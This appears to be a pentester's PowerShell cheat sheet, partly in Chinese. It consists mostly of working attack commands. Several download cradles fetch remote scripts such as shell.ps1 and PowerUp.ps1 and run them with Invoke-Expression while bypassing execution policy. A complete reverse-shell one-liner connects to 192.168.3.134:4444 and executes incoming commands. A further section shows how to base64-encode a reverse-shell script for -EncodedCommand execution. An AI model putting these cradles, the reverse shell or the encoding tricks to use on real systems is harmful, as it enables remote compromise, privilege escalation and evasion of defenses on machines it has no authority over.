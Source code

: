 ## powershell

**常用**
```powershell
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.2.0.5/shell.ps1')|iex"

powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/ipw.ps1')"

Start-Process -NoNewWindow powershell "IEX(New-Object Net.WebClient).downloadString('http://10.222.0.26:8000/ipst.ps1')"

echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.13:8000/PowerUp.ps1') | powershell -noprofile

# no payload written on disk; via smb share
powershell -exec bypass -f \\webdavserver\folder\payload.ps1
```

**one-liner**

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.3.134',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0,$bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();}$client.Close()"
```

### base64 encode
+ powershell script read file and encode to string; offensive-lab; [powershell encode b64](https://www.educba.com/powershell-base64/)
+ NiShang -- [Invoke-Encode](https://github.com/samratashok/nishang/blob/master/Utility/Invoke-Encode.ps1), encode file
+ python [b64xfunc](https://github.com/4lph4b/b64xFunc); need to try again.
+ msfvenom [RCE on Windows – x86 vs x64 Powershell payloads](https://ivanitlearning.wordpress.com/2020/08/06/rce-on-windows-x86-vs-x64-powershell-payloads/)

```powershell
# basic code encode/decode
## encode
$Text = ‘This is a secret and should be hidden’
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText

## decode
$EncodedText = “VABoAGkAcwAgAGkAcwAgAGEAIABzAGUAYwByAGUAdAAgAGEAbgBkACAAcwBoAG8AdQBsAGQAIABiAGUAIABoAGkAZABlAG4A”
$DecodedText = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($EncodedText))
$DecodedText

# ps readfile and encode
## encode from file byte
$filedata= [IO.FIle]::ReadAllText("c:\tools\Invoke-PowerShellTcpOneLine_443.ps1")
[convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($filedata))

## save encoded string to file, then download and execute
powershell -nop -ep bypass -EncodedCommand "encoded code"

## down and execute
## double ' to 转义
```